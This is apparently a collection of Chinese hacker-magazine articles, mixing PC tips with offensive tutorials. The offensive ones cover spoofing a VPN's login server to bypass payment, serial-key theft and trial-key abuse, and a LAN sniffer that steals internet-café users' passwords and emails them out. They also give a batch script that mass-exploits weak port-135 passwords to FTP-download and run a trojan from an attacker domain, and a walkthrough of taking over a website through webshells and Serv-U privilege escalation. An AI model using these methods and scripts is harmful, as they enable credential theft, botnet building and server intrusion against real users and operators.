我们依次点击“File”->“New Packet List”，出现了网卡选择页面。如果你只有一块网卡，直接点击下面的“OK”；否则就选择你当前活动的网卡进行监视，最后点击“OK”进入监视状态。这时候没流量，如果你进入监视状态后右边窗口有数据在流动，那么请先点击软件最上面的大红色方块按钮停止监视，然后点击该按钮右边的垃圾箱按钮来清理数据……

在记事本中有个叫作“Type”的位置，里面是数据的类型。当然这种类型很多，有ARP、ICMP、HTTP之类，我们从HTTP部分开始，一个个地看。当点击某条数据时你会发现下面右边的小窗口在显示详细的数据信息，而右下角的窗口显示着16进制的原始代码……

记录完后再点击垃圾箱清理记录信息，然后重新点击绿色启动按钮开始监视。此时切换到VPN123界面，选择你需要的加速方式及线路后点击确定，直到VPN123完全连接成功，然后切换回MaaTec界面……很快就找到了如图5中所标示出来的信息，再次使用记事本记录下来，然后再继续往后找，你会发现有类似“//...”的东西出现，如图6。

上图中标示出来的部分其实就是中文信息，但是由于该软件是国外朋友编写的，所以无法解析中文而已。那么我们借助该软件破解就到此结束了，后面的部分将不再会用到它。好了，看看我们手里都有什么。对了，就是你记事本上记录的东西。

```
client.vpn123.com
/client_login.php?username=test&password=test&cmd=login&rf=main
/client_login.php?username=test&password=test&cmd=getvpnroutes&id=1&rf=main
```

在浏览器中打开这两个地址：

```
http://client.vpn123.com/client_login.php?username=test&password=test&cmd=login&rf=main
http://client.vpn123.com/client_login.php?username=test&password=test&cmd=getvpnroutes&id=1&rf=main
```

我们先打开第一个地址，回显了一些信息，然后在页面上右键点击并选择“查看源代码”，可以在记事本中以本身的排列方式显示这些信息（如图7，浏览器中换行需要使用`<br>`标记，HTML不认识回车）。保存文件内容到`D:\Soft\VPN123\Web`下，文件名称为`server.txt`；使用同样的方法打开第二个地址并查看源代码，保存内容至`D:\Soft\VPN123\Web`下，文件名称为`dns.txt`。

此处注意：如果你在本机已经用过VPN123很久，该测试账号已经无法正常登录了，那么上面的2个地址中你将会得到一个包含Locked信息的返回，表示该用户已经锁定，代码如下。此刻你需要借助另一台未使用过VPN的电脑来访问页面以获得返回信息。

```
[VPN]
RequiredClientVersion=1.0.2.0
UpdateURL=http://client.vpn123.com/login.php
AuthResult=Locked
```

图7

到此，我们所需要的信息及文件基本准备就绪，让我们来分析下软件原理：

- 1. 在登录界面输入用户名和密码进行登录；
- 2. 将用户名和密码通过URL方式发送到地址1中进行验证；
- 3. 验证通过后返回当前可用的服务器线路（即第一个URL返回的数据）；
- 4. 提交选择线路后，服务器建立和你之间的VPN连接，并且返回网关路由信息（即第二个URL返回的数据）到本机；
- 5. 使用上面返回的DNS信息修改本机的网关连接，设定某些URL通过VPN进行访问。

从以上分析可以看出，注册验证是通过URL发送信息，然后根据返回信息来判断的。那么就是说我们只需要构造一个与上面一样的地址，并且总是返回登录成功的信息就OK了。

图8

我们可以这样做：在本机架设IIS（相关方法网上非常多，XP/2000/2003系统盘自带，本文以2003服务器为例，其它类同）。第一项网站描述“client.vpn123.com”；第二项IP地址和端口设置页中，在主机头处输入“client.vpn123.com”；第三项路径设置为`D:\Soft\VPN123\Web`；第四页选择“读取”和“运行脚本”。完成IIS站点创建后，打开属性窗口，在“主目录”中设置执行权限为“纯脚本”，并在“配置”中添加`.php`扩展到可执行文件映射（可参照`.asp`映射方式），使IIS可按ASP方式解析PHP页面。

接着修改本机的HOST文件（可将域名解析到指定IP，类似本地DNS），打开`C:\WINDOWS\system32\drivers\etc`找到`hosts`文件，用记事本打开并添加一条DNS记录，如图8。

到此，还差最后一步了，我们需要构造一个`client_login.php`文件，直接复制下面的代码到`D:\Soft\VPN123\Web\client_login.php`文件中即可，代码如下：

```vb
dim username,password,tempcmd
username = request("username")
password = request("password")
tempcmd = request("cmd")

if lcase(tempcmd)="login" then
    echo("server")
else
    echo("dns")
end if

sub echo(byval strer)
Dim tmpFSO,tmpFile,tmpTextStream,tmpText
tmpFile = Server.MapPath(strer&".txt")

Set tmpFSO = Server.CreateObject("Scripting.FileSystemObject")
Set tmpTextStream = tmpFSO.OpenTextFile(tmpFile)
tmpText = tmpTextStream.ReadAll
response.write tmpText
end sub
%>
```

好了，为了测试方便，我们把本机网络断掉（拔网线还是禁用本地连接就随便你了），然后再访问之前我们记录的地址，正确返回信息……打开VPN123进行游戏吧，除了玩游戏外，访问一些电信的站点速度也是非常快的哦！

（本文中所涉及到的软件`Vpn123.exe`、`mtna_std_setup.exe`及相关代码已经收录到光盘中）

## 看我无限次刷卡巴7.0半年key

txcbg

现在360安全卫士正与卡巴斯基合作，只要安装360安全卫士就可以免费得到半年的卡巴斯基正版key，但每台电脑只能得到一次……当然不是的，利用一个小技巧，我们做到了无限次刷卡巴的半年key。

直接点击该链接，就会弹出奇虎用户登录界面，如图2。随便注册一个用户，成功创建用户后就可以直接看到领取激活码的按钮了，如图3。点击获取按钮，就会弹出如图4所示的对话框。

今天是2007年12月6日，激活码却已经在10月14日过期了……这说明一台电脑只能领取一次。既然如此，我们找一台别的没有领取过的电脑领取，然后使用得到的key来激活即可。

激活我们已经过期的卡巴不就行了吗？下面来验证我的想法是否可行。当然，我并不是说为了得到一个卡巴的半年key就去买一台新电脑或是使用别人的电脑。使用虚拟机呀！我安装的是VMware Workstation，下载并安装后按提示领取激活码……

使用得到的激活码看看能否激活我原来已经过期的卡巴，结果成功激活了，如图6。这样我又可以用上半年正版的卡巴斯基了。……另外，经过测试，卡巴7.0在默认情况下不能在Windows 2003系统下安装……

## 教你几招保护好自己的IM密码

俗话说得好，设备也别丢钱，丢啥也别丢密码。随着计算机网络的发展，IM即时通讯软件也逐渐成为人们交流工具，聊天密码的安全自然成为一个焦点……

#### 一、时刻警惕“善意的谎言”

网络是把双刃剑。我们可以通过网页浏览信息，也可能被恶意攻击者利用来获取敏感信息。玩QQ时应注意活动网址格式，例如`http://xxx.qq.com/xxx`，对可疑子域名和仿冒页面要提高警惕……

#### 二、一眼识别爱机中马了

从2005 Beta3开始腾讯使用了软键盘输入密码，随后又使用nProtect键盘加密技术。盗号木马若要记录账号密码，需先绕过该机制。文中给出通过限制关键文件权限来防护的方法。

```bat
cacls.exe x:\qq安装目录\npkcrypt.sys /e /t /g everyone:N
cacls.exe x:\qq安装目录\npkcrypt.vxd /e /t /g everyone:N
cacls.exe x:\qq安装目录\npkcntc.dll /e /t /g everyone:N
```

这样即使中马了，因为没有权限也无法删除这三个文件，从而保护了自己的账号密码不被盗。

#### 三、密码忘了丢了我不怕不怕了

为了登录方便，很多IM软件设置了自动登录，时间长了会忘记密码。可使用相关工具恢复历史账号信息；若QQ密码丢失，可通过申诉找回，但需提供历史密码、好友账号及最近上线地点等信息。

那么我们可以进行如下操作。首先运行QQ登录修改专家，如图3，然后单击“浏览”，选择QQ的安装目录，这时候“QQ登录号码”栏里就会出现本机登录过的QQ；如果没有，我们可以单击“添加”。然后断开网络，在QQ登录号码中选择你丢失密码的那个号码，单击“修改”，这时候我们打开QQ就可以使用密码000000登录了，登录后就可以查看到好友的号码了！

有了上面的准备，我们就可以登录  
`http://service.qq.com/psw/mo.shtml?psw_ss.htm`  
去提交信息进行申诉了！

### 论坛乾坤大挪移

紫衣太行者

大家知道如何把别人论坛上的帖子转到自己论坛上来吗？对于我提出的这个问题，可能许多小菜都会认为不可思议：用鼠标复制、粘贴不就行了吗，这地球人都会呀！这招当然可以，但倘若我们要转的帖子有许多，甚至是对方论坛上全部的帖子，如果还使用复制、粘贴的方法，恐怕就没人乐意做这个苦力活了。其实我们只要使用一个小工具就可以解决这个问题了。请出我们的主角——狂人采集大挪移（论坛采集器）。其实论坛采集器有很多版本（PW版、DZ版、DVBBS版都有），本文我就只介绍DZ版的用法，其它版本的使用方法都是大同小异。

会员发帖，用户名和密码中间空十个左右的空格；如输入多个用户时需另起一行；后面的是安全提问和安全回答，如果没有的话可以不填。

首先我们运行论坛采集器，解压后会有三个不同的版本，一般选择标准版就行了（图1）。由于这是狂人论坛制作的，开始界面显示要使用账号登录；没有的话也能够看见账号处默认有“免费使用”四个字，直接点登录就可以了。登录后的界面如图2所示，上面已经列出了操作步骤。

第一步是让你进行论坛设置，这里设置的论坛是要转帖到的论坛。我以“灰色轨迹”的论坛为例。其中前三项都没什么问题，最后的“论坛类型”一定要选择自己论坛对应的类型（HTML格式是网页类型，动态文件格式是标准类型），不然转帖时会出错（图3）。

接下来回到主界面进行第二步：设置论坛版块和发帖地址。论坛版块就是要发到哪个版块，发帖地址就是发帖子的地址。我以“病毒木马”这个论坛版块为例（图4），和刚才一样，也是先保存然后再返回到主界面。

完成后进行第三步：已注册会员设置，就是要设置由哪个会员去发帖。上线完后会返回登录页源码，查看是否正确；如果能成功上线，就准备进行最重要的一步。

- 1. 采集搬家来源论坛设置：就是设置从哪儿运来帖子。我以黑基论坛为例，首先选择论坛设置，黑基是DZ5.5动态模板，就选择DZ5动态模板（在左侧）；采集规则名称和采集作者信息可以忽略，帖子列表地址要根据实际情况选择。采集搬家文章模式使用“普通”，其它都可以保持默认。到主论坛对应版块时，需要填写你当时第二步选择的版块地址。设置完后按“添加保存修改”即可，然后给你选择的设置模板打对勾。为了保险起见，我们可以点测试按钮测试一下，测试完成后可以点退出。
- 2. 批量采集新帖：就是先采集（注意并没有开始搬家，只是先采集），把帖子转到自己的电脑上，然后再批量剪切到论坛上。其中的采集页数可根据需要设置，比如是整个版块搬家就填上原版块页数；如果只是采集新帖子，那么设置几页就可以了（图5）。最好把本地化里的图片打上勾，不然只能看文章不能看图片。设置完成后点“采集开始”，会提醒你设置一个目录以存放本地化文件，然后会提示你使用论坛采集器下载还是使用其它软件手工下载，当然选择使用论坛采集器下载。然后工具就开始正式采集了，如图6。
- 3. 查看修改保存在电脑中的文件，如果有垃圾帖的话，在这一步可以删除；如果没有的话直接保存，然后点返回退出。
- 4. 批量发帖，这是最重要的一步。点击后把“发后删除”的勾去掉，把广告发帖1去掉，也不要填0，就让它空着；延时推荐设置成100，发帖字号设置为10。然后点采集的帖子文章管理，把需要发的帖子打上勾，然后保存返回。接着就开始发帖了，如图7。

相信看了本文后大家都会使用论坛采集器发文章了吧，这样就可以省去我们小菜不少时间了。

> （本文所涉及到的Discuz狂人采集大师已收录到光盘中）

## Google也要打免费电话

txcbg

相信很多小菜都用过或听说过免费打电话的软件吧，最近Google也推出了免费打电话的服务。我试用了一下，感觉非常不错，特推荐给大家。要想使用Google提供的免费打电话服务，需要用到Google推出的一款即时聊天工具——Google Talk。我们首先去  
`http://dl.google.com/googletalk/googletalk-setup-zh-CN.exe`  
下载最新的简体中文版Google Talk，先进行安装，运行后的界面如图1所示。我需要使用Gmail账户进行登录，如果你已经有Gmail邮箱直接登录即可。

如果还没有的话，可以去  
`http://mail.google.com/mail/signup`  
注册一个（早就开放注册了），登录后的界面如图2所示。

通过“添加”按钮把“service@splinter.net”添加为联系人，添加完毕后，直接双击“service@splinter.net”这个联系人，就出来了一个小的聊天窗口，如图3。

在下面的小输入窗口中就可以输入你要拨出的电话号码了。注意在输入电话号码前要加国家代码，比如给中国移动的13512345678打电话，就输入“call 8613512345678”。如果是固定电话，要把区号前面的0去掉，比如给济南一号码为12345678的人打电话（济南区号是0531），就输入“call 8653112345678”。输入完后直接按回车，会很快跳出一个小对话框，点“应答”后就开始拨叫对方号码了，等对方接了电话就可以通话了（图4）。

每个Google账户都给了0.25美元的话费，每分钟的话费是0.0143美元，约可以打17分钟电话。那话费打完了怎么办呢？我们还可以换个Gmail账户继续打，反正Gmail账户是免费申请，要多少有多少。

经过我的测试，通话质量还算可以，差不多能达到手机的通话质量。另外，在输入框中输入“HELP”还会出现详细帮助（不过是英文的），如图5。比如输入“COST”可以查询你打某个电话花了多少钱，剩下的命令有兴趣的话大家就慢慢研究吧！

总的来说，Google提供的这个有限免费打电话服务还是不错的，Google提供的服务稳定性可以得到保证，申请也比较简单，不像有些需要使用手机等申请后才能免费打电话。想打免费电话的友子快来试试吧。

## 轻轻松松获取电脑序列号二

王涛

前几天因为工作去了一家大公司，看到人家电脑中的软件都是正版软件。对于囊中羞涩、只能下载盗版软件使用的我，心中甚是痒痒。趁办公室没人，掏出我的U盘，启动工具箱中的法宝——KeyFinder Thing，来了个大搜刮。

KeyFinder Thing可以自动搜寻系统中存在的软件序列号，如Windows、Office、Aero、Photoshop、Adobe Acrobat等，并可以将搜到的结果保存为文件输出，这样就神不知鬼不觉地盗取到正版软件序列号了。回家之后仍然琢磨，所以就在自家电脑上将整个过程模拟了一遍，和大家一起分享。

运行KeyFinder Thing后（正常运行这个软件需要系统中安装有.NET Framework 2.0），程序会自动检测系统内所安装的软件序列号，并将其以列表的形式罗列出来，如图1。如果需要保存的话，可以选择File菜单栏下的Export Keys，保存为Text File或HTML格式，如图2。

难道KeyFinder Thing就只能找到这么几个序列号？当然不是。可以找到的软件序列号还不止这些，很多软件在安装时都会将序列号保存到注册表中。为了更全面地找到系统注册表中的序列号，单击Tools菜单下的Search，好好地将注册表搜索一遍。

用表搜寻一下，如图3。接下来看成果吧，如图4。但是这种方式也有一个缺陷，就是不能直接导出文本格式或 HTML 格式，需要在 KeyFinder Thing3 Search 界面中勾选要保存序列号的项或者全选，再点击“Select All”，然后复制选择项，点击“Copy Selected”，这样就可以将序列号拷贝到剪贴板，最后再复制到文本编辑器中就可以了。

### 系统还原听我的

Evil Fan


记得以前杂志内一些关于系统还原的文章，让我受益匪浅。最近几天我发现硬盘空间已经所剩无几了，于是就学着杂志上介绍的方法删除了几个还原点来释放空间，可是过不了多久硬盘又没有多少空间了（还原点是很占空间的，如图1）。后来才知道，如果你开启了系统还原，系统会每隔一段时间创建一个你所监视的硬盘还原点，对于我这种小硬盘容量的用户来说实在是太奢侈了。


后来仔细想了想几种解决办法，其实我们根本没必要那么频繁地创建还原点，一般情况下在刚安装好系统时创建一个还原点，关闭系统还原就可以了。再往深处考虑，系统内最重要的是 C 盘（假设 C 是系统盘），我们也没必要去创建所有盘符的还原点，所以也可以只创建 C 盘的还原点。对于如何关闭某个磁盘的系统还原，相信大家都会吧（图2），不过我要再给大家推荐一种方法，使用这种方法你创建的还原点体积将会更小。


系统里最重要的文件基本上都在 Windows 目录下，因此我们只要还原 Windows 目录下的内容就可以了，也就是说让系统只创建关于 Windows 目录的系统还原点。比如在 C 盘下创建文件夹 123，我想让系统还原在创建还原点时不把 123 这个文件夹包括在内，那么怎么解决系统还原在创建还原点时忽略掉 123 这个文件夹而只创建 Windows 目录的还原点呢？方法很简单，利用注册表就可以实现。下面看我的操作：在“开始”-“运行”栏输入 `regedit` 调出注册表，进入注册表后依次展开 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\BackupRestore\FilesNotToBackup`，在右边新建“多字符串值”并命名为“123”，数值数据设置为 `C:\123\* /s`（图3）。随后启动系统还原并创建 C 盘还原点，建议新建一个还原点，否则还原后可能丢失以上设置。创建完成后重启并备份还原点，之后即可按需还原。

这种方法的优点有很多，比如我早期创建了一个还原点，而以后又经常在 C 盘内存放文件等，如果系统崩溃了，我们又忘了把那些文件复制出来，那么当系统还原后，就会将后来所创建的文件给删除。掌握了这种方法后，就不用担心硬盘空间不足，或者系统还原时把后来所创建的文件给弄丢了。

## 黑客不告诉你

### 什么是 Cookies 欺骗？

在只对用户做 Cookies 验证的系统中，通过修改 Cookies 的内容来得到相应的用户权限登录。初级的可以修改 Cookies 的过期时间实现永久登录。Cookies 欺骗在入侵中经常用到，例如论坛场景：首先自己注册普通用户登录得到 Cookies；然后在页面中找到管理员的 ID；再把 Cookies 中自己的用户 ID 改成管理员 ID（可借助 CookiesView 等工具）；刷新页面后重新访问后台或管理地址，可能即可获得管理权限。该方法在弱验证系统中较容易实现。

### 巧用蓝牙手机为电脑装上“无形锁”

## 花的神明

使用蓝牙通讯技术，可以在蓝牙手机、PC、笔记本电脑、掌上电脑、家电等支持蓝牙功能的设备间建立蓝牙连接，从而灵活快速地共享所需的数据。现在越来越多的朋友都拥有了蓝牙手机，那么能否使用蓝牙手机“遥控”操作电脑呢？例如在办公室等场合，当你离开自己的电脑后，如果没有及时锁定屏幕或者关机，那么别人就可以轻易接触到你的重要文件……

初次使用 LockItNow! 时，会弹出密码设置窗口（图1），在其中输入 LockItNow! 的解锁密码，点击“Set Password”按钮保存设置，这样假如你忘记带蓝牙手机，也可以手工为电脑解锁。


在系统托盘中的 LockItNow! 图标上点鼠标右键，选择“Settings”，在设置窗口选择“General”项，然后在“Operation mode”列表中选择“Use with phone”（图2），表示使用蓝牙手机为电脑加锁。当然，如果你没有蓝牙手机，可以选择“Use without phone”项，表示手工为电脑加锁。


你也可以同时添加多个蓝牙设备。如果 LockItNow! 在电脑周围检测不到选定的蓝牙设备，就会自动锁定电脑。

如果在“Operation mode”中选择“Bluetooth connect”（图4），表示手工检测蓝牙设备。在“Bluetooth connect”栏中选择和蓝牙适配器对应的 COM 端口，在“Can LockItNow! Detect the phone”栏中点击“Start”按钮，LockItNow! 就会对连接在该 COM 端口上的蓝牙手机进行检测了。

在“With Phone”选项的“The lock response when the phone not is present”中拖动滑块来设置当蓝牙手机离开 LockItNow! 的检测范围后，LockItNow! 锁定电脑的反应时间（图5）……在“The unlock response when the phone is present”中可设置当手机归位后电脑解锁的反应时间。

在“Wait X minutes”中设置解锁成功后，经过多长时间（默认为 5 分钟），当 LockItNow! 检测到没有执行任何操作就可以重新锁定电脑。若是纯手工锁定电脑，可在“Without Phone”的“The inactivity lock response time Wait X minutes”中设置空闲超时后执行锁定操作。


在“Security”的“Change password”栏中可以更改解锁密码，点击“Set Password”保存密码（图7）。为了进一步增强 LockItNow! 的安全性，可以勾选“Incorrect password attempts before logoff X”项，表示当电脑锁定后，输入的解锁密码总数超过预设的次数（默认 3 次），即可执行注销操作。勾选“Use default Windows locking security”项，表示当锁定电脑时，使用 Windows 默认的锁定模式，当用户解锁后，必须手工登录系统。勾选“Password required to close”项，表示在 LockItNow! 中执行更改设置、退出、打开管理界面等操作时，必须输入密码。

在“Other”中的“Background”栏中可以更改电脑锁定时的屏幕显示模式，默认为 LockItNow! 提供的背景画面，也可以选择纯黑的背景或点击“Browse”按钮选择自定义背景画面。设置完成后点击 OK 按钮保存配置（图8）。

默认情况下，LockItNow! 自动激活保护功能，如果你使用蓝牙锁定电脑，LockItNow! 即可自动检测选定的蓝牙手机，当其超出检测范围后，LockItNow! 即可自动锁定电脑；当你携带蓝牙手机返回电脑附近时（一般为 10 米以内），LockItNow! 就会重新检测到蓝牙手机的存在，即可自动为电脑解锁。当然，你可以在 LockItNow! 右键菜单上点击“Lock”项，也可以立即锁定电脑了。如果想暂时取消 LockItNow! 的保护状态，可以在 LockItNow! 右键菜单中点击“Inactivate”项，就会取消 LockItNow! 的保护功能；点击“Activate”项，就可以恢复 LockItNow! 的保护状态了。（本文所涉及到的 LockItNow! 已收录到光盘中）

## ——网吧黑网吧密码——

相信大家都使用过许多键盘记录木马，作为国产老牌的盗号软件——密码监听，其在功能上已经逐步完善。它可以用于监听所有网页的密码，包括网页上的邮箱、论坛、聊天室等。它只需要在一台电脑上运行，就可以监听整个局域网内任意一台电脑登录的账号和密码，并将密码显示、保存，或发送到用户指定的邮箱或提交到指定网页。也就是说我们只要在网吧任一台电脑上运行密码监听，那么就可以轻松获取整个网吧所有人的账号和密码了，这可是其它盗号软件所无法比拟的功能。下面就跟我一起来看看这款软件的使用方法吧。

- 1. 首先将软件包解压缩，然后运行 `pswmonitor.exe`，这时程序会要求我们注册。若没有注册的话，监听到的密码最后一个字符是问号“？”，这当然不是我们所希望看到的。可使用：
  - 用户名：追风少年@H4CK.CN
  - 注册码：2878487  
  来进行注册（图1）。


- 2. 注册成功后就可以看到程序的主要操作界面了。首先看到的是监听状态页，从图2中可以看到正在监听本地网卡，密码数为 0，也就是还没有监听到任何密码。界面上各个按钮的功能如下：
  - 保存：将监听到的密码保存。
  - 发送：将监听到的密码发送到用户指定的邮箱地址。
  - 清除：清除列表中所有的密码。
  - 中止/开始：该按钮在监听与中止监听之间切换。
  - 隐藏：隐藏该界面，也可以按热键在显示与隐藏之间切换。
  - 关闭：关闭该程序。


- 3. 要想监听到密码就得对程序进行详细的配置，我们切换到“适配器”选项，选择要监听的网络适配器，比如拨号网络适配器、网卡等，以适应不同的上网方式（图3）。

- 4. 接下来切换到“发送与保存”选项进行设置（图4），在“发送参数”中各个参数如下设置。发送邮箱：用于发送密码的发送邮箱地址；密码：发送邮箱的密码；SMTP 服务器：发信使用的 SMTP 服务器地址。  
在“接收参数”中，选择“自动发送给强制指定的邮箱”选项；可自定义邮件主题，避免被当作垃圾邮件；填写接收密码的邮箱地址。点击“测试”可发送测试邮件，测试成功说明参数配置正确。


- 5. 最后是“密码保护”和“其它”的设置。密码保护即设置当软件隐藏界面后，再次呼出时需要输入密码，以防他人调用隐藏界面。在“密码保护”中输入密码后点击“应用”即可（图5）。

- 6. 在其它设置中，“显示/隐藏界面热键设置”建议按需修改；“启动参数设置”中“启动时隐藏界面”和“系统启动时自动启动”建议勾选；“更新过滤器”用于在线更新监听过滤规则（图6）。

全部设置完成后点击“应用”即可生效。点击“开始”程序开始监听；点击“隐藏”程序切换到后台隐藏运行。之后可通过热键呼出界面，并查看截获密码（图7）。

这款老牌国产密码监听软件介绍完毕，如有疑问可到相关论坛交流。


## 让 XP 来享受 Vista 的 ReadyBoost 加速

在微软最新的 Vista 操作系统里新增了 ReadyBoost 功能，可将存储设备空间虚拟为缓存，利用高速随机访问能力为系统加速。借助 eBoostr 软件，Windows XP 也可实现类似的 ReadyBoost 效果。

- 1. 为频繁使用的程序和文件智能缓存，以达到性能最大化；
- 2. 支持 USB 和非 USB 移动设备（含附加硬盘）；
- 3. 可同时使用四个设备进行智能缓存；
- 4. 兼容所有 ReadyBoost 设备。


进入“编辑”，选择“增加新的缓存装置”，就会显示出你的 USB 设备……需要注意的是你的 USB 设备必须是 USB2.0 规格。……相信你用过 eBoostr 后，再也不用羡慕 Vista 里面才有的 ReadyBoost 功能了。

> （本文所涉及到的 Eboostr 已收录到光盘中）


## 菜鸟部落战学：用135端口抓肉鸡

对于 Windows XP 系统，自从 MS06-040 漏洞后就没有其它更好的入侵方法了……这次我就为大家介绍一个比较简单又对 Windows XP 系统可行的方法——利用 135 端口抓肉鸡。

- 1. 它的 135 端口一定是打开的。  
- 2. 对方必须存在弱口令。

> **小知识：135 端口是做什么的？**  
> 135 端口主要用于使用 RPC（Remote Procedure Call，远程过程调用）协议并提供 DCOM 服务……


下面就和我一起来抓鸡吧，打开“领域小组专用批量抓鸡器”……输入要扫描的起始 IP 地址与结束 IP 地址，如图1。这个 IP 段设置较大，扫描时间会久一些，但范围越大成功率越高。

接着点“XP 扫描”，程序会自动调用扫描器进行扫描，如图2。扫描结束后结果会保存到当前目录下的 Result.txt 文件里。


下面我们要整理这个文件，选择“自动整理 IP”，然后选“修正并保存文件”，如图3。现在这些整理完的开启 135 端口的 IP 地址都保存到 host.txt 中了。

接下来再次扫描这些开启 135 端口的 IP 是否存在弱口令：打开“NTscan.exe”，勾选“主机文件”，选择 host.txt，线程设为 800 左右，选择“WMI 扫描”，去掉“在扫描之前 Ping”和“扫描打开端口的主机”，最后点“开始”。扫描结果保存到 NTscan.txt 文件。

## 傻瓜黑客


用“自动整理 IP”功能进行整理，保存成了 1210.txt，如图5。

整理完毕后，我们就要做溢出前的准备工作了，首先需要准备一个配置好的木马服务端程序和一个 FTP 服务程序，并且拥有一个动态的域名。我使用的动态域名是 jxcctv.vicp.net（关于动态域名，大家可以使用“花生壳”）。现在来建一个 FTP 服务器，打开“迷你多功能服务器”，选择“FTPServer”，FTP 主目录就选你存放木马服务端的那个目录，服务端口使用 21 就可以，用户名和密码都使用 123，这个随便你设置，如图6。


我们以文本的方式打开 `c:\1.bat`，将文本里的“FTP地址”替换成你的 FTP 地址：jxcctv.vicp.net（注：其实在这儿直接使用你的 IP 地址也行，不过为了方便木马上线，还是使用动态域名好），再将 FTP 帐号和 FTP 密码这几个字依次替换成你的 FTP 帐号和 FTP 密码 123，如图7。

```bat
@echo off
setlocal
color a
cscript c:\rpmd.vbe %1 administrator "" "cmd /c @echo open jxcctv.vicp.net>>bin.txt&@echo 123>>bin.txt&@echo 123>>bin.txt&@echo get 3.exe>>bin.txt&@echo bye>>bin.txt&@ftp -s:bin.txt&del bin.txt&3.exe&3.exe&del 3.exe"
echo. & pause
```

图7中的 `echo. & pause` 这句代码，是为了让一会儿的溢出结果看得更清楚，我才加上去的。开始溢出：打开“通用批量溢出程序”，程序名称选择 1.bat，点下边的“浏览”，


选中 1210.txt 文件，端口为空，最后点“开始”，如图8。接着就会弹出好多 cmd 窗口，你别急着关闭，不一会儿溢出就成功了，如图9。

由于我事先在 1.bat 里加了一句 `echo. & pause`，所以在成功溢出后需要手动关闭才行。如果没有溢出成功，程序就会返回如图10所示的信息。

接着来看看你的木马客户端，三台主机都上线了哦，如图11。如果上线不到三台，则说明你的木马被对方的杀毒软件给干掉了。

那么我们如何预防 135 端口被入侵呢？一是可以给你的电脑添加个强悍点的密码，二是最好关闭 135 端口。如何关闭 135 端口呢？我们可以使用一款十六进制编辑软件（推荐 UltraEdit）打开系统目录下的 `rpcss.dll` 文件，查找并替换相应十六进制内容，把 135 端口改为 000。


至此修改任务已经完成，下面将面临一个保存问题。因为该文件正在运行，在 Windows 环境下不能直接覆盖。FAT32 可引导进 DOS 覆盖；NTFS 可进入安全模式后用进程工具结束 `svchost.exe` 对应服务再复制覆盖。重启后执行 `netstat -an`，即可看到 Windows XP 下 135 端口已关闭。

相信大家看了本文后，一定都学会如何利用 135 端口来抓肉鸡了吧。最后祝大家在新的一年里鸡鸡多多。

> （本文所涉及到的工具如冰河、NTscan、迷你型多功能服务器及相关代码等已收录到光盘中）

### 菜鸟拿站不难

很多刚入门的小菜不知道怎么拿站，都说拿站难。追溯到 2005 年，拿站曾经相对轻松，许多站点因上传漏洞被批量利用；后来网站逐步修补漏洞、权限收紧，入侵变难。

其实拿站也不难，关键在于搜索与挖掘工具的使用。通过 Google 及相关挖掘站点，可快速定位可能泄露源码或备份文件的目标，从而寻找可乘之机。

今天以 `http://code.vvind.com` 这类源码挖掘页面为例说明思路：页面关键字多由自动采集，主要是抓取网站源码、备份包（如 `.rar`）等资源线索。


下载页面中的 `www.rar` 文件并解压，查看其中内容（如图2、图3）。


## 傻瓜黑客


在对方 admin 目录下找到的 login.asp 文件包含了本目录下的 conn.asp（数据库链接文件），然后在 conn.asp 文件里找到了数据库地址，如图5。打开数据库后找到了管理员的账号和密码，而且居然还是明文显示的，如图6。


直接登录后台，找上传的地方来上传木马。在前边我们说过上传漏洞现在已经隐藏了，如果我们是管理员的话就有可能直接上传木马，来看看我们的运气吧。找到了上传的地方了，但是抓包后发现没有可利用的地方，如图7。

上图说明了两个问题：

- 上传路径不可自定义；
- 有同名类型文件（这个看上面的 asp 类型就知道了，我可没有添加哦）。

只好放弃这个上传的地方，接着再找上传，又发现了一处，如图8。

刚点上传就直接弹出了“请选择 jpg 或 gif 文件！”，如图9。对于经常入侵网站的朋友应该了解，这是本地验证，找到软肋了。我们来看源代码：

```html
<INPUT name=image type=hidden value=>
<iframe marginwidth=0 framespacing=0 marginheight=0 frameborder=0 width="426" height=25 src="picture.asp"></iframe>
```

看到 `picture.asp`（上传文件），那么我们直接提交 `http://www.jjhl.net/admin/picture.asp`，上传地址出来了，如图10。


突破本地上传的方法是把本地验证图片格式的代码直接删掉，或者修改代码中的文件后缀名，换成你要上传的文件后缀名（这段代码怎么查找呢？大家观察图9，给出的提示语句就是我们搜索的关键。如果怕误删造成网页错误，可以使用查找替换功能把 jpg 换成 asp，也省去了查找代码的烦恼）。修改了本地验证，还有重要的一步，就是把提交地址补全。

```html
<form name="myform" method="post" action="upfile.asp" enctype="multipart/form-data" language="javascript" onsubmit="return check();">
```

改成

```html
<form name="myform" method="post" action="http://www.jjhl.net/admin/upfile.asp" enctype="multipart/form-data" language="javascript">
```

`onsubmit="return check();"` 本地提交时我们再拿出抓包工具，抓到上传地址，如图11。


图10


图11

输入地址得到小马，然后上传大马。看了一下服务器，各盘基本都能浏览，WScript.Shell 被删或被改，在 D 盘看到了 Serv-U，3389 端口开了并且能登录，如图12。下载 ServUDaemon.exe，使用 WINHEX 打开文件查看密码，发现账号密码改成 jinboAdministrator 和 `#10$in#.bo!@p`，那么我想端口也应该改了，事实也证明了我的想法，使用默认端口提权没成功。那么怎么找呢？看到 C 盘我眼前一亮，支持 php 和 perl。对于 perl 不太了解，而 php 相对了解些，那么就上传 php 木马吧，如图13、图14。


图12


图13


图14

PHP 木马的权限可比 asp 的高，我们执行命令查看端口 `netstat -an`，看到 58943 端口有点特别，如图15。直接在 su.asp 里输入这个端口进行提权，执行添加管理员命令，如图16。然后直接使用 3389 登录，验证了刚才 SERV-U 提权成功，如图17。


图15


图16


其实菜鸟入侵就这么几招，很简单地就拿下了服务器。对于上面的下载源码方式，我们还可以拓展一下，比如挖掘防篡改默认的打包文件 HYYTop.mdb，或其他的默认文件，这就靠大家去发挥了。祝大家网技多多。（本文所涉及到的木马软件已收录到光盘中）

### 菜鸟黑客们伪装程序

姬良（崔承琦）

每个程序员都不希望自己辛辛苦苦编写出来的程序被人破解，所以便有了程序伪装的技术。大多数破解者检测软件是否加壳或者加的什么壳时，使用的基本上是 PEID 这个软件。先来了解一下 PEID 检测的原理：因为程序被不同的壳处理后，文件头的代码是不同的，所以 PEID 就以文件头代码来确定文件是使用什么语言编写或者加的是什么壳。正因为如此，如果我们稍作修改的话，不仅能够欺骗 PEID，还会实现部分的“免杀”。下面我就使用 winshell5.0 最终版来进行演示。


